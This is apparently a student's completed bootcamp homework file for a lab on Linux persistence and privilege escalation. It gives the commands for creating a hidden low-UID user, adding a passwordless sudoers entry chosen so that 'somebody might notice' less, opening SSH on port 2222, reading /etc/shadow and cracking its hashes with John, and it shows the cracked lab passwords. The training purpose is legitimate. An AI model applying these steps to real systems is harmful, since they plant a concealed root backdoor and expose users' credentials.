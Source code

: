 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.

> As the Access Setup had us switch to `root`, I ran all the below commands as root (so there's no need for `sudo`)

**Step 1: Shadow People**

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:  
    `sudo useradd  --groups sudo -M --system --shell /bin/bash sysd`

    ```bash
    root@scavenger-hunt:~# grep sysd /etc/passwd
    sysd:x:998:998::/home/sysd:/bin/bash
    ```

2. Give your secret user a password:
 ```bash
    root@scavenger-hunt:~# passwd sysd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully
 ```

3. Give your secret user a system UID < 1000:  
> N.B While specifying `--system` on `useradd` created a user with a system UID, I opted to change it lower to blend in with the other system user ids.

    `usermod --uid 123 sysd`

4. Give your secret user the same GID:
   `groupmod --gid 123 sysd` change gid of existing group

```bash
   root@scavenger-hunt:~# grep sysd /etc/passwd
   sysd:x:123:123::/home/sysd:/bin/bash
```    

5. Give your secret user full `sudo` access without the need for a password:
> Found out that last match in /etc/sudoers is what counts. Didn't want to specify NOPASSWD for either sudo group (somebody might notice). Added following to bottom of `/etc/sudoers`.  

`sysd      ALL=(ALL:ALL) NOPASSWD:ALL`
6. Test that `sudo` access works without your password:

```bash
    sysd@scavenger-hunt:/$ cat /etc/shadow
    cat: /etc/shadow: Permission denied
    sysd@scavenger-hunt:/$ sudo cat /etc/shadow
    root:*:18113:0:99999:7:::
    daemon:*:18113:0:99999:7:::
    bin:*:18113:0:99999:7:::
    sys:*:18113:0:99999:7:::
    sync:*:18113:0:99999:7:::
    games:*:18113:0:99999:7:::
    man:*:18113:0:99999:7:::
    lp:*:18113:0:99999:7:::
    mail:*:18113:0:99999:7:::
    news:*:18113:0:99999:7:::
... remaining entries omitted ...
```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    nano  /etc/ssh/sshd_config
    Added `Port 2222` line
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

checking what's listening    
```
root@scavenger-hunt:/# netstat -4latp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      23186/systemd-resol
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      10320/sshd
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      10320/sshd
tcp        0    288 scavenger-hunt:ssh      192.168.6.1:54703       ESTABLISHED 10060/sshd: sysd [p
```
2. Exit the `root` account:
     `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
     `ssh sysd@192.168.6.105 -p 2222`  


4. Use `sudo` to switch to the root user:
```
  sysd@scavenger-hunt:/$ sudo su

  You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

  root@scavenger-hunt:/# id
  uid=0(root) gid=0(root) groups=0(root)  
```


**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

`ssh sysd@192.168.6.105 -p 2222`


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

```bash
sudo su
root@scavenger-hunt:/#  john --wordlist=/home/student/Desktop/.pass_list.txt /etc/shadow
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Remaining 7 password hashes with 7 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
trustno1         (mitnik)
freedom          (babbage)

root@scavenger-hunt:~# john /etc/shadow
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Remaining 5 password hashes with 5 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
cyber            (sysd)
```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
